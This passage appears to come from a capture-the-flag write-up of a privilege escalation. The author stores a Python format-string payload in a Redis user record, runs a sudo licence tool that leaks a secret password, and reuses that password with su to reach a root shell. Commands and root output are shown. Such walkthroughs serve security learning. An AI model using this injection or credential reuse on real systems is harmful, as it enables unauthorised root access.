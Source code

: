 we can set last name to:

```python
{license.__init__.__globals__[secret]}
```

```shell
redis-cli -s /var/run/redis/redis.sock
```

```text
HSET john username john
HSET john first-name john
HSET john last-name {license.__**init__**.__**globals__**[secret]}
```

Now, we can run `/usr/bin/license` to provision a license key for the new user which we created.

```shell
sudo /usr/bin/license -p "john"
```

![Untitled](license.png)

The licence key :

```text
microblogjohn3j{vM{+Dh5b=sTKEOKH1l^O|>~Jp)ri}OnEM#>/IjohnunCR4ckaBL3Pa$$w0rd
```

at the end, we have the first name : john

and the secret used to cipher : `unCR4ckaBL3Pa$$w0rd`

that looks like a password ...

A simple "su" allow to get a root shell :

```shell
cooper@format:~$ su -
Password:
root@format:~# id
uid=0(root) gid=0(root) groups=0(root)
root@format:~#
```


